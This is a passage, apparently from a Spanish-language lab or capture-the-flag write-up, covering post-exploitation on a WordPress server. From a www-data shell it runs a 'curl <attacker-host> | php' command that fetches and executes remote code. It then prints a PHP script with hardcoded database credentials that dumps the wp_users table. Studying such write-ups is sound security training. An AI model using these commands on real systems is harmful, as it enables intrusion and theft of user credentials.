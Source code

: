 ```bash
www-data@bf9a078a3627:/var/www/html/wordpress/wp-admin$ curl 10.10.14.64:8000/trythis.php | php
<s/wp-admin$ curl 10.10.14.64:8000/trythis.php | php    
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   379  100   379    0     0   1041      0 --:--:-- --:--:-- --:--:--  1044
Connected successfully
wp_commentmeta
wp_comments
wp_links
wp_options
wp_postmeta
wp_posts
wp_term_relationships
wp_term_taxonomy
wp_termmeta
wp_terms
wp_usermeta
wp_users
www-data@bf9a078a3627:/var/www/html/wordpress/wp-admin$ 
```
Bingo!

sacamos los datos de la tabla wp_users:

```bash
<?php
$host = '172.17.0.1';
$user = 'wp_user';
$pass = 'wp_password';
$db = 'wordpress';


$conn = new mysqli($host, $user, $pass, $db);


if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}
echo "Connected successfully\n";


$query = "SELECT * FROM wp_users";
$result = $conn->query($query);

// Verificar si hay resultados
if ($result->num_rows > 0) {
    // Iterar sobre cada fila de la tabla wp_users
    while ($row = $result->fetch_assoc()) {
        // Imprimir todas las columnas de la fila
        foreach ($row as $key => $value) {
            echo "$key: $value\n";
        }
        echo "------------------------\n"; // Separador entre usuarios
    }
} else {
    echo "No se encontraron registros en la tabla wp_users.\n";
}


$conn->close();
?>
```
